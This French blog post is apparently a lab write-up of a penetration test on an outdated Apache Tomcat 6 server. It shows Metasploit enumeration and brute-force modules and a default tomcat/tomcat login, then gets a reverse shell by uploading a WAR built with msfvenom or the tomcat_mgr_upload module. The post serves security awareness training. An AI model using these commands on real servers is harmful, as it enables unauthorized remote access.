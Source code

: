 ```yaml
---
layout: post
title:  "Test d'intrusion sur un serveur Apache Tomcat"
date:   2021-10-19
last-update: 
categories: linux security
tags: shell ssh linux tomcat
image: /assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG 
description: cet article présente un test d'intrusion sur une ancien version d'un serveur apache tomcat afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




>Ce write-up présente les possibles vulnérabilités d'un serveur Apache tomcat 6.18 (ancienne version) afin de sensibiliser l'utilisateur à certaines bonnes pratiques lors la configuration d'un serveur apache tomcat, notamment :
>
>-Tenir à jour sa version tomcat
>
>-Utiliser des mots de passes forts
>
>Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.
>



## Introduction

Lors d'un laboratoire, après avoir avoir scanné le réseau avec nmap, j'ai pu voir qu'un serveur tomcat tournait sur le port 8080 à l'adresse <IP>.

![tomcat-scan]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-scan.PNG)



 En accédant depuis le navigateur, j'accédais à la page d'accueil du serveur. En rouge, deux adresses url intéressantes car elles permettent d'accéder à l'interface d'administration du serveur.

![tomcat-index]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-index.PNG)

## Tentative

Avant de trouver la bonne solution, quelques tentatives ont été réalisées avec metasploit

### tomcat_enum

Ce module énumère les noms d'utilisateurs apache en envoyant des requête malformées au j_security_check.

Version vulnérable : 4.1.0 - 4.1.39, 5.5.0 - 5.5.27, and 6.0.0 - 6.0.18

Les nouvelles versions de Tomcat ne sont pas vulnérable

```
use auxiliary/scanner/http/tomcat_enum
set RHOST <target IP:PORT> 
run
```

Source : 

- [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/)
- [https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)



#### Résultat 

L'attaque n'a pas fonctionnée dans mon cas

### dir_scanner

Le scanner de répertoire permet de scanner un serveur web afin de trouver des répertoires intéressants. 

```
use auxiliary/scanner/http/dir_scanner
SET RHOST <target IP>
set RPOT <traget PORT>
run
```

Source :

[www.offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

#### Résultat 

L'exploit n'a pas trouvé de répertoires sensibles.

### Brute-force login

Le module tomcat_mgr_login permet de brute-forcer la page de login du manager :

Source :

-  [www.rapid7.com - http/tomcat_mgr_login/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)

***

## Solution



Sur la page http, on peut voir un lien url vers la page manager demandant un mot de passe et un nom d'utilisateur.

### "Brute-force" manuel du login

Sur ce github, on peut trouver tout une liste de mot de passe habituel/par défaut : [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

En cherchant également sur internet, je suis tombé sur plusieurs articles qui utilisaient la pair tomcat /tomcat comme nom d'utilisateur / mot de passe.

En essayant sur la page => bingo.

On arrive ainsi sur la page manager

![tomcat-manager]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG)



### shell - Upload war

Une fois sur la page de manager, on peut tenter d'obtenir un reverse shell un uploadant un fichier war.

#### Tentative ratée

Ayant mal configuré mon metasploit,t j'ai crû que les modules  metasploit ne fonctionnaient pas. J'obtenais l'erreur suivante : 

> Handler failed to bind <ip>

 J'ai donc tenté de "crafté" moi-même mon war en passant par `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o rshell3.war
```

Puis après avoir cliqué sur le fichier uploadé dans le manager, j'ai lancé avec metasploit et netcat des serveurs pour "écouter"

- metasploit

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Documentation officielle : [offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

- netcat

```bash
nc -lvp 1234
```

J'ai probablement mal configuré mes attaques car celles-ci ne fonctionnaient pas



#### Source 

Cet article explique comment créer son propre payload avec MSFVenom

[vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

#### Tentative réussie

J'ai retenté avec metasploit où j'ai découvert que je n'avais pas configuré mon LHOST et c'était alors mon IP habituel au lieu de celle du VPN qui était prise. C'est pour cela que j'avais l'erreur 

> Handler failed to bind <ip>

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <target IP>
set RPORT 8080
set LHOST <IP>
set HttpUsername tomcat
set HttpPassword tomcat
exploit
```

Il suffit ensuite d'attendre quelques instants pour obtenir une session meterpreter et le tour est joué :)

![tomcat-meterpreter]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-meterpreter.png)

Sur le manager, on peut constater qu'un fichier a été uploadé

![manager-file-upload]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/manager-file-upload.png)



Source : 

[rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)



## Sources 

- [https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
- [https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)
- Plusieurs attaques sur tomcat : [book.hacktricks.xyz - tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)
- Documentation officielle metasploit : [rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)
